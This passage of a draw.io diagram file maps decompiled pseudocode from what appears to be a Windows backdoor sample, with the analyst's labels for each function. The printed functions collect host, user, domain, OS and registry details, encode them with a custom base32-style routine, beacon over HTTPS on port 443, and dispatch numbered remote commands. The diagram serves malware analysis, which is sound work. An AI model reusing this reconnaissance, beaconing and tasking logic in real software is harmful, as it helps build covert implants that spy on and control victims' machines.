5&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; &lt;font color=&quot;#b6ff24&quot;&gt;SprintFFunction&lt;/font&gt;(Buffer);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; &lt;font color=&quot;#ff8b26&quot;&gt;ProcessDataBuffers&lt;/font&gt;(v8, v10, v3);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; &lt;font color=&quot;#ffcce6&quot;&gt;AppendToBuffer&lt;/font&gt;(v11, (int)byte_4075E0, (int)v8);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; if ( &lt;font color=&quot;#47e7ff&quot;&gt;sub_4034D0&lt;/font&gt;(v11, byte_4075E0, Buffer, v9, 1024, v5) &amp;amp;&amp;amp; !strcmp(v9, aStatusSuccess) ) //function_11&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; Thread = CreateThread(0, 0, sub_401960, 0, 0, 0);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; WaitForSingleObject(Thread, 0xFFFFFFFF);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; }&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; else&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; SleepForX(15000);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; &lt;font color=&quot;#b6ff24&quot;&gt;sub_401C50&lt;/font&gt;(); // function12&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; SleepForX(10000);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; }&lt;br&gt;&amp;nbsp; }&lt;br&gt;}&lt;/p&gt;" style="text;html=1;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="230" y="227" width="422.88" height="890" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-25" value="&lt;h1&gt;(function_1 a.k.a main() calls everything else)&lt;br&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="230" y="200" width="550" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-30" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.25;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IVjEpb5pE-T4-foRiEZy-6" target="IVjEpb5pE-T4-foRiEZy-18">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-33" value="&lt;h1&gt;&lt;font color=&quot;#47e7ff&quot;&gt;(function 5, called by function 1 within while loop, something to do with network):&lt;/font&gt;&lt;br&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-1180" y="1140" width="510" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-36" value="char *__thiscall sub_402EE0(void *this, int a2, const char *a3)&#xa;{&#xa;  unsigned int v4; // esi&#xa;  struct hostent *v5; // eax&#xa;  char *v6; // eax&#xa;  int v7; // ecx&#xa;  unsigned int v8; // kr04_4&#xa;  unsigned int v9; // ecx&#xa;  char *v10; // ebp&#xa;  unsigned int v11; // kr08_4&#xa;  unsigned int v12; // kr0C_4&#xa;  char *v13; // edi&#xa;  unsigned int v14; // ecx&#xa;  char *v15; // ebp&#xa;  unsigned int v16; // kr10_4&#xa;  unsigned int v17; // ecx&#xa;  char *v18; // ebp&#xa;  unsigned int v19; // kr14_4&#xa;  DWORD nSize; // [esp+10h] [ebp-324h] BYREF&#xa;  CHAR Buffer[61]; // [esp+14h] [ebp-320h] BYREF&#xa;  __int16 v23; // [esp+51h] [ebp-2E3h]&#xa;  char v24; // [esp+53h] [ebp-2E1h]&#xa;  char v25[61]; // [esp+54h] [ebp-2E0h] BYREF&#xa;  __int16 v26; // [esp+91h] [ebp-2A3h]&#xa;  char v27; // [esp+93h] [ebp-2A1h]&#xa;  char v28[61]; // [esp+94h] [ebp-2A0h] BYREF&#xa;  __int16 v29; // [esp+D1h] [ebp-263h]&#xa;  char v30; // [esp+D3h] [ebp-261h]&#xa;  char Destination[61]; // [esp+D4h] [ebp-260h] BYREF&#xa;  __int16 v32; // [esp+111h] [ebp-223h]&#xa;  char v33; // [esp+113h] [ebp-221h]&#xa;  _BYTE VersionInformation[284]; // [esp+114h] [ebp-220h] BYREF&#xa;  char name[257]; // [esp+230h] [ebp-104h] BYREF&#xa;  __int16 v36; // [esp+331h] [ebp-3h]&#xa;  char v37; // [esp+333h] [ebp-1h]&#xa;&#xa;  memset(name, 0, sizeof(name));&#xa;  v36 = 0;&#xa;  v37 = 0;&#xa;  *(_BYTE *)a2 = 1;&#xa;  v4 = 0;&#xa;  if ( !gethostname(name, 255) )&#xa;  {&#xa;    v5 = gethostbyname(name);&#xa;    if ( v5 )&#xa;    {&#xa;      v6 = inet_ntoa(**(struct in_addr **)v5-&gt;h_addr_list);&#xa;      v4 = inet_addr(v6);&#xa;      dword_407624 = v4;&#xa;    }&#xa;  }&#xa;  *(_DWORD *)(a2 + 1) = v4;&#xa;  *(_DWORD *)(a2 + 5) = GetOEMCP();&#xa;  *(_DWORD *)(a2 + 9) = GetTickCount();&#xa;  *(_DWORD *)(a2 + 13) = sub_4031F0(this) == 0;&#xa;  memset(VersionInformation, 0, sizeof(VersionInformation));&#xa;  *(_DWORD *)VersionInformation = 284;&#xa;  GetVersionExW((LPOSVERSIONINFOW)VersionInformation);&#xa;  v7 = *(_DWORD *)&amp;VersionInformation[8];&#xa;  *(_DWORD *)(a2 + 17) = *(_DWORD *)&amp;VersionInformation[4];&#xa;  *(_DWORD *)(a2 + 21) = v7;&#xa;  memset(Destination, 0, sizeof(Destination));&#xa;  memset(v28, 0, sizeof(v28));&#xa;  v32 = 0;&#xa;  v33 = 0;&#xa;  v29 = 0;&#xa;  v30 = 0;&#xa;  *(_BYTE *)(a2 + 25) = VersionInformation[282];&#xa;  sub_403220(Destination, v28);&#xa;  v8 = strlen(Destination) + 1;&#xa;  *(_WORD *)(a2 + 26) = v8 - 1;&#xa;  v9 = (unsigned __int16)(v8 - 1);&#xa;  qmemcpy((void *)(a2 + 28), Destination, v9);&#xa;  v10 = (char *)(v9 + a2 + 28 + 2);&#xa;  v11 = strlen(v28) + 1;&#xa;  *((_WORD *)v10 - 1) = v11 - 1;&#xa;  qmemcpy(v10, v28, (unsigned __int16)(v11 - 1));&#xa;  memset(Buffer, 0, sizeof(Buffer));&#xa;  v23 = 0;&#xa;  v24 = 0;&#xa;  nSize = 64;&#xa;  GetComputerNameA(Buffer, &amp;nSize);&#xa;  v12 = strlen(Buffer) + 1;&#xa;  v13 = &amp;v10[(unsigned __int16)(v11 - 1) + 2];&#xa;  *((_WORD *)v13 - 1) = v12 - 1;&#xa;  v14 = (unsigned __int16)(v12 - 1);&#xa;  v15 = &amp;v13[v14];&#xa;  qmemcpy(v13, Buffer, v14);&#xa;  memset(v25, 0, sizeof(v25));&#xa;  v26 = 0;&#xa;  v27 = 0;&#xa;  sub_403360(v25);&#xa;  v15 += 2;&#xa;  v16 = strlen(v25) + 1;&#xa;  *((_WORD *)v15 - 1) = v16 - 1;&#xa;  v17 = (unsigned __int16)(v16 - 1);&#xa;  qmemcpy(v15, v25, v17);&#xa;  v18 = &amp;v15[v17 + 2];&#xa;  v19 = strlen(a3) + 1;&#xa;  *((_WORD *)v18 - 1) = v19 - 1;&#xa;  qmemcpy(v18, a3, (unsigned __int16)(v19 - 1));&#xa;  return &amp;v18[(unsigned __int16)(v19 - 1) - a2];&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-1140" y="1240" width="390" height="1510" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-40" value="&lt;h1&gt;&lt;font color=&quot;#baff42&quot;&gt;(function 4, called by function 1 before going into while loop)&lt;/font&gt;&lt;br&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-300" y="555" width="430" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-41" value="char *__stdcall sub_403220(char *Destination, char *a2)&#xa;{&#xa;  HANDLE CurrentThread; // eax&#xa;  char *result; // eax&#xa;  HANDLE CurrentProcess; // eax&#xa;  HANDLE TokenHandle; // [esp+0h] [ebp-614h] BYREF&#xa;  DWORD cchReferencedDomainName; // [esp+4h] [ebp-610h] BYREF&#xa;  DWORD cchName; // [esp+8h] [ebp-60Ch] BYREF&#xa;  DWORD ReturnLength; // [esp+Ch] [ebp-608h] BYREF&#xa;  enum _SID_NAME_USE peUse; // [esp+10h] [ebp-604h] BYREF&#xa;  CHAR ReferencedDomainName[253]; // [esp+14h] [ebp-600h] BYREF&#xa;  __int16 v11; // [esp+111h] [ebp-503h]&#xa;  char v12; // [esp+113h] [ebp-501h]&#xa;  CHAR Name[253]; // [esp+114h] [ebp-500h] BYREF&#xa;  __int16 v14; // [esp+211h] [ebp-403h]&#xa;  char v15; // [esp+213h] [ebp-401h]&#xa;  char TokenInformation[1021]; // [esp+214h] [ebp-400h] BYREF&#xa;  __int16 v17; // [esp+611h] [ebp-3h]&#xa;  char v18; // [esp+613h] [ebp-1h]&#xa;&#xa;  memset(TokenInformation, 0, sizeof(TokenInformation));&#xa;  memset(Name, 0, sizeof(Name));&#xa;  v17 = 0;&#xa;  v18 = 0;&#xa;  memset(ReferencedDomainName, 0, sizeof(ReferencedDomainName));&#xa;  v14 = 0;&#xa;  v15 = 0;&#xa;  v11 = 0;&#xa;  v12 = 0;&#xa;  cchName = 256;&#xa;  cchReferencedDomainName = 256;&#xa;  CurrentThread = GetCurrentThread();&#xa;  if ( OpenThreadToken(CurrentThread, 8u, 1, &amp;TokenHandle)&#xa;    || (result = (char *)GetLastError(), result == (char *)1008)&#xa;    &amp;&amp; (CurrentProcess = GetCurrentProcess(), (result = (char *)OpenProcessToken(CurrentProcess, 8u, &amp;TokenHandle)) != 0) )&#xa;  {&#xa;    result = (char *)GetTokenInformation(TokenHandle, TokenUser, TokenInformation, 0x400u, &amp;ReturnLength);&#xa;    if ( result )&#xa;    {&#xa;      result = (char *)LookupAccountSidA(&#xa;                         0,&#xa;                         *(PSID *)TokenInformation,&#xa;                         Name,&#xa;                         &amp;cchName,&#xa;                         ReferencedDomainName,&#xa;                         &amp;cchReferencedDomainName,&#xa;                         &amp;peUse);&#xa;      if ( result )&#xa;      {&#xa;        strncpy(Destination, ReferencedDomainName, 0x3Fu);&#xa;        return strncpy(a2, Name, 0x3Fu);&#xa;      }&#xa;    }&#xa;  }&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-2070" y="1590" width="560" height="860" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-43" value="&lt;h1&gt;(function 6, called by function 5, something to do with process informationg gathering):&lt;br&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-2100" y="1510" width="680" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-45" value="void __stdcall sub_403360(char *a1)&#xa;{&#xa;  void *v1; // ebx&#xa;  const char *v2; // edi&#xa;  HKEY phkResult; // [esp+Ch] [ebp-10h] BYREF&#xa;  DWORD cbData; // [esp+10h] [ebp-Ch] BYREF&#xa;  DWORD v5; // [esp+14h] [ebp-8h] BYREF&#xa;  BYTE Data[4]; // [esp+18h] [ebp-4h] BYREF&#xa;&#xa;  phkResult = HKEY_CURRENT_USER;&#xa;  if ( RegOpenKeyExA(HKEY_CURRENT_USER, SubKey, 0, 1u, &amp;phkResult) )&#xa;  {&#xa;    RegCloseKey(phkResult);&#xa;    return;&#xa;  }&#xa;  cbData = 0;&#xa;  if ( !RegQueryValueExA(phkResult, ValueName, 0, 0, 0, &amp;cbData) )&#xa;  {&#xa;    v1 = operator new(cbData);&#xa;    memset(v1, 0, cbData);&#xa;    if ( !RegQueryValueExA(phkResult, ValueName, 0, 0, (LPBYTE)v1, &amp;cbData)&#xa;      &amp;&amp; !RegQueryValueExA(phkResult, aAH, 0, 0, 0, &amp;cbData) )&#xa;    {&#xa;      v5 = 4;&#xa;      if ( !RegQueryValueExA(phkResult, aAH, 0, 0, Data, &amp;v5) )&#xa;      {&#xa;        strcat(a1, (const char *)v1);&#xa;        if ( *(_DWORD *)Data )&#xa;        {&#xa;          if ( *(_DWORD *)Data != 1 )&#xa;          {&#xa;LABEL_12:&#xa;            operator delete(v1);&#xa;            return;&#xa;          }&#xa;          v2 = aOn;&#xa;        }&#xa;        else&#xa;        {&#xa;          v2 = aOff;&#xa;        }&#xa;        strcat(a1, v2);&#xa;        goto LABEL_12;&#xa;      }&#xa;    }&#xa;  }&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-1999.5" y="2700" width="450" height="700" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-47" value="&lt;h1&gt;(function 7, called by function 5, something to do with registry):&lt;br&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-2060" y="2590" width="680" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-49" value="int __stdcall SprintFFunction(char *Buffer)&#xa;{&#xa;  return sprintf(Buffer, &quot;%s%u&quot;, asc_4073E8, dword_407624);&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-80" y="1250" width="370" height="80" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-51" value="&lt;h1&gt;&lt;font color=&quot;#b6ff24&quot;&gt;(function 8,&amp;nbsp;SprintFFunction):&lt;br&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-90" y="1180" width="360" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-53" value="int __cdecl ProcessDataBuffers(_BYTE *InputBuffer, _BYTE *InputBuffer2, unsigned int BufferSize)&#xa;{&#xa;  _BYTE *v3; // ecx&#xa;  _BYTE *v4; // esi&#xa;  unsigned int v5; // ebp&#xa;  char v6; // al&#xa;  char v7; // dl&#xa;  char v8; // bl&#xa;  unsigned __int8 v9; // al&#xa;  _BYTE *v10; // ecx&#xa;  int result; // eax&#xa;  unsigned __int8 v12; // [esp+4h] [ebp-1Ch]&#xa;  unsigned __int8 v13; // [esp+8h] [ebp-18h]&#xa;  unsigned __int8 v14; // [esp+Ch] [ebp-14h]&#xa;  unsigned __int8 v15; // [esp+10h] [ebp-10h]&#xa;  int v16; // [esp+14h] [ebp-Ch]&#xa;  unsigned __int8 v17; // [esp+18h] [ebp-8h]&#xa;  unsigned __int8 v18; // [esp+1Ch] [ebp-4h]&#xa;  unsigned __int8 InputBuffera; // [esp+24h] [ebp+4h]&#xa;  unsigned int InputBuffer2a; // [esp+28h] [ebp+8h]&#xa;  unsigned __int8 BufferSizea; // [esp+2Ch] [ebp+Ch]&#xa;&#xa;  v3 = InputBuffer;&#xa;  if ( !InputBuffer )&#xa;    return 0;&#xa;  v4 = InputBuffer2;&#xa;  if ( !InputBuffer2 )&#xa;    return 0;&#xa;  v5 = BufferSize;&#xa;  InputBuffer2a = BufferSize;&#xa;  v16 = 0;&#xa;  if ( BufferSize )&#xa;  {&#xa;    while ( 1 )&#xa;    {&#xa;      if ( v5 &gt;= 5 )&#xa;        v5 = 5;&#xa;      v6 = 0;&#xa;      v7 = 0;&#xa;      v8 = 0;&#xa;      v15 = 0;&#xa;      InputBuffera = 0;&#xa;      v14 = 0;&#xa;      v13 = 0;&#xa;      v12 = 0;&#xa;      BufferSizea = 0;&#xa;      v18 = 0;&#xa;      v17 = 0;&#xa;      switch ( v5 )&#xa;      {&#xa;        case 1u:&#xa;          goto LABEL_13;&#xa;        case 2u:&#xa;          goto LABEL_12;&#xa;        case 3u:&#xa;          goto LABEL_11;&#xa;        case 4u:&#xa;          goto LABEL_10;&#xa;        case 5u:&#xa;          v15 = v4[4] &amp; 0x1F;&#xa;          InputBuffera = v4[4] &gt;&gt; 5;&#xa;LABEL_10:&#xa;          InputBuffera |= 8 * (v4[3] &amp; 3);&#xa;          v14 = (v4[3] &gt;&gt; 2) &amp; 0x1F;&#xa;          v6 = v4[3] &gt;&gt; 7;&#xa;LABEL_11:&#xa;          v13 = (2 * (v4[2] &amp; 0xF)) | v6;&#xa;          v7 = v4[2] &gt;&gt; 4;&#xa;LABEL_12:&#xa;          v9 = v4[1];&#xa;          v12 = (16 * (v9 &amp; 1)) | v7;&#xa;          BufferSizea = (v9 &gt;&gt; 1) &amp; 0x1F;&#xa;          v8 = v9 &gt;&gt; 6;&#xa;LABEL_13:&#xa;          v18 = (4 * (*v4 &amp; 7)) | v8;&#xa;          v17 = *v4 &gt;&gt; 3;&#xa;          break;&#xa;        default:&#xa;          break;&#xa;      }&#xa;      v4 += v5;&#xa;      InputBuffer2a -= v5;&#xa;      switch ( v5 )&#xa;      {&#xa;        case 1u:&#xa;          v12 = 32;&#xa;          BufferSizea = 32;&#xa;          goto LABEL_16;&#xa;        case 2u:&#xa;LABEL_16:&#xa;          v13 = 32;&#xa;          goto LABEL_17;&#xa;        case 3u:&#xa;LABEL_17:&#xa;          InputBuffera = 32;&#xa;          v14 = 32;&#xa;          goto LABEL_18;&#xa;        case 4u:&#xa;LABEL_18:&#xa;          v15 = 32;&#xa;          break;&#xa;        default:&#xa;          break;&#xa;      }&#xa;      v10 = v3 + 1;&#xa;      *(v10++ - 1) = aAbcdefghijklmn[v17];&#xa;      *(v10++ - 1) = aAbcdefghijklmn[v18];&#xa;      *(v10++ - 1) = aAbcdefghijklmn[BufferSizea];&#xa;      *(v10++ - 1) = aAbcdefghijklmn[v12];&#xa;      *(v10++ - 1) = aAbcdefghijklmn[v13];&#xa;      *(v10++ - 1) = aAbcdefghijklmn[v14];&#xa;      *(v10 - 1) = aAbcdefghijklmn[InputBuffera];&#xa;      v3 = v10 + 1;&#xa;      *(v3 - 1) = aAbcdefghijklmn[v15];&#xa;      v16 += 8;&#xa;      if ( !InputBuffer2a )&#xa;        break;&#xa;      v5 = InputBuffer2a;&#xa;    }&#xa;  }&#xa;  result = v16;&#xa;  *v3 = 0;&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-469" y="1540" width="560" height="1820" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-56" value="&lt;h1&gt;&lt;font color=&quot;#ff8b26&quot;&gt;(function 9,&amp;nbsp;ProcessDataBuffers):&lt;br&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-469" y="1480" width="410" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-59" value="int __stdcall AppendToBuffer(char *Buffer, int a2, const char *a3)&#xa;{&#xa;  int result; // eax&#xa;&#xa;  sprintf(Buffer, aYf, a2);&#xa;  result = 0;&#xa;  strcat(Buffer, aRf8t69mIWm);&#xa;  strcat(Buffer, aPj);&#xa;  strcat(Buffer, aDz);&#xa;  strcat(Buffer, aPj_0);&#xa;  strcat(Buffer, aPj_1);&#xa;  strcat(Buffer, aRfX0wEtbUqP3);&#xa;  strcat(Buffer, a3);&#xa;  strcat(Buffer, asc_407478);&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-459" y="3650" width="380" height="250" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-62" value="&lt;h1&gt;&lt;font color=&quot;#ffcce6&quot;&gt;(function 10, sprintf + some appends to buffer):&lt;br&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-489" y="3560" width="550" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-65" value="int __thiscall sub_4034D0(int this, int a2, int a3, int a4, int a5, int a6, _DWORD *a7)&#xa;{&#xa;  int v8; // ebx&#xa;  int v10; // eax&#xa;  int v11; // ebp&#xa;  int v12; // eax&#xa;  int v13; // edi&#xa;  int v14; // ebx&#xa;  int v15; // ebp&#xa;  int i; // [esp+ACh] [ebp-Ch] BYREF&#xa;  int v17; // [esp+B0h] [ebp-8h] BYREF&#xa;  int v18; // [esp+B4h] [ebp-4h]&#xa;&#xa;  v8 = (*(int (__stdcall **)(_DWORD, _DWORD, _DWORD, _DWORD, _DWORD))(this + 4))(0, 0, 0, 0, 0);&#xa;  v18 = v8;&#xa;  if ( v8 )&#xa;  {&#xa;    v17 = 20000;&#xa;    if ( (*(int (__stdcall **)(int, int, int *, int))(this + 8))(v8, 2, &amp;v17, 4) )&#xa;    {&#xa;      v10 = (*(int (__stdcall **)(int, int, int, _DWORD, _DWORD, int, _DWORD, _DWORD))(this + 12))(&#xa;              v8,&#xa;              a3,&#xa;              443,&#xa;              0,&#xa;              0,&#xa;              3,&#xa;              0,&#xa;              0);&#xa;      v11 = v10;&#xa;      v17 = v10;&#xa;      if ( v10 )&#xa;      {&#xa;        v12 = (*(int (__stdcall **)(int, void *, int, void *, _DWORD, _DWORD, int, _DWORD))(this + 16))(&#xa;                v10,&#xa;                &amp;unk_4071D4,&#xa;                a4,&#xa;                &amp;unk_4071E0,&#xa;                0,&#xa;                0,&#xa;                13119488,&#xa;                0);&#xa;        v13 = v12;&#xa;        if ( v12 )&#xa;        {&#xa;          if ( (*(int (__stdcall **)(int, int, int, _DWORD, _DWORD))(this + 20))(v12, a2, -1, 0, 0)&#xa;            || GetLastError() == 12045&#xa;            &amp;&amp; (a4 = 4,&#xa;                (*(void (__stdcall **)(int, int, int *, int *))(this + 24))(v13, 31, &amp;a3, &amp;a4),&#xa;                a3 |= 0x180u,&#xa;                (*(void (__stdcall **)(int, int, int *, int))(this + 8))(v13, 31, &amp;a3, 4),&#xa;                (*(int (__stdcall **)(int, int, int, _DWORD, _DWORD))(this + 20))(v13, a2, -1, 0, 0)) )&#xa;          {&#xa;            v14 = a5;&#xa;            v15 = a6;&#xa;            for ( i = 0; ; *a7 += i )&#xa;            {&#xa;              Sleep(0x64u);&#xa;              v14 += i;&#xa;              if ( !(*(int (__stdcall **)(int, int, int, int *))(this + 32))(v13, v14, v15, &amp;i) )&#xa;              {&#xa;                GetLastError();&#xa;                (*(void (__stdcall **)(int))(this + 28))(v18);&#xa;                (*(void (__stdcall **)(int))(this + 28))(v17);&#xa;                (*(void (__stdcall **)(int))(this + 28))(v13);&#xa;                return 0;&#xa;              }&#xa;              if ( !i )&#xa;                break;&#xa;              v15 -= i;&#xa;            }&#xa;            (*(void (__stdcall **)(int))(this + 28))(v13);&#xa;            (*(void (__stdcall **)(int))(this + 28))(v17);&#xa;            (*(void (__stdcall **)(int))(this + 28))(v18);&#xa;            return 1;&#xa;          }&#xa;          else&#xa;          {&#xa;            (*(void (__stdcall **)(int))(this + 28))(v8);&#xa;            (*(void (__stdcall **)(int))(this + 28))(v17);&#xa;            (*(void (__stdcall **)(int))(this + 28))(v13);&#xa;            return 0;&#xa;          }&#xa;        }&#xa;        else&#xa;        {&#xa;          GetLastError();&#xa;          (*(void (__stdcall **)(int))(this + 28))(v8);&#xa;          (*(void (__stdcall **)(int))(this + 28))(v11);&#xa;          (*(void (__stdcall **)(_DWORD))(this + 28))(0);&#xa;          return 0;&#xa;        }&#xa;      }&#xa;      else&#xa;      {&#xa;        GetLastError();&#xa;        (*(void (__stdcall **)(int))(this + 28))(v8);&#xa;        (*(void (__stdcall **)(_DWORD))(this + 28))(0);&#xa;        return 0;&#xa;      }&#xa;    }&#xa;    else&#xa;    {&#xa;      GetLastError();&#xa;      (*(void (__stdcall **)(int))(this + 28))(v8);&#xa;      return 0;&#xa;    }&#xa;  }&#xa;  else&#xa;  {&#xa;    GetLastError();&#xa;    (*(void (__stdcall **)(_DWORD))(this + 28))(0);&#xa;    return 0;&#xa;  }&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="750" y="1690" width="560" height="1720" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-67" value="&lt;h1&gt;&lt;font color=&quot;#47e7ff&quot;&gt;(function 11, no idea what it is):&lt;br&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="750" y="1630" width="410" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-70" value="int sub_401C50()&#xa;{&#xa;  int result; // eax&#xa;  int v1[131]; // [esp-210h] [ebp-D30h] BYREF&#xa;  int *v2; // [esp-4h] [ebp-B24h]&#xa;  int v3; // [esp+10h] [ebp-B10h] BYREF&#xa;  char v4[128]; // [esp+14h] [ebp-B0Ch] BYREF&#xa;  char Buffer[128]; // [esp+94h] [ebp-A8Ch] BYREF&#xa;  int Parameter[131]; // [esp+114h] [ebp-A0Ch] BYREF&#xa;  char v7[1024]; // [esp+320h] [ebp-800h] BYREF&#xa;  char v8[1024]; // [esp+720h] [ebp-400h] BYREF&#xa;&#xa;  memset(v4, 0, sizeof(v4));&#xa;  memset(Buffer, 0, sizeof(Buffer));&#xa;  v3 = 0;&#xa;  memset(v8, 0, sizeof(v8));&#xa;  memset(v7, 0, sizeof(v7));&#xa;  sub_402980(Buffer);&#xa;  sub_402BC0(v8, (int)byte_4075E0, (int)v4);&#xa;  strcpy(v4, byte_4075E0);&#xa;  strcat(v4, Buffer);&#xa;  if ( !sub_4034D0(v8, byte_4075E0, Buffer, v7, 1024, &amp;v3) || !strcmp(v7, aStatusSuccess) )&#xa;    return 0;&#xa;  if ( !v3 )&#xa;    return 1;&#xa;  qmemcpy(Parameter, v7, sizeof(Parameter));&#xa;  sub_4028A0(&amp;Parameter[3], 512);&#xa;  switch ( Parameter[0] )&#xa;  {&#xa;    case 4:&#xa;      v2 = (int *)v4;&#xa;      qmemcpy(v1, Parameter, sizeof(v1));&#xa;      sub_401F20();&#xa;      return 1;&#xa;    case 5:&#xa;      v2 = (int *)v4;&#xa;      qmemcpy(v1, Parameter, sizeof(v1));&#xa;      sub_4020E0();&#xa;      return 1;&#xa;    case 6:&#xa;      v2 = (int *)v4;&#xa;      qmemcpy(v1, Parameter, sizeof(v1));&#xa;      sub_402150();&#xa;      return 1;&#xa;    case 7:&#xa;      CreateThread(0, 0, StartAddress, Parameter, 0, 0);&#xa;      Sleep(0x1F4u);&#xa;      result = 1;&#xa;      break;&#xa;    case 8:&#xa;      v2 = (int *)v4;&#xa;      qmemcpy(v1, Parameter, sizeof(v1));&#xa;      sub_4023A0(v1[0], v1[1], v1[2], v1[3]);&#xa;      return 1;&#xa;    default:&#xa;      return 1;&#xa;  }&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="755" y="3640" width="520" height="870" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-74" value="&lt;h1&gt;&lt;font color=&quot;#b6ff24&quot;&gt;(function 12)&lt;br&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="740" y="3580" width="550" height="70" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
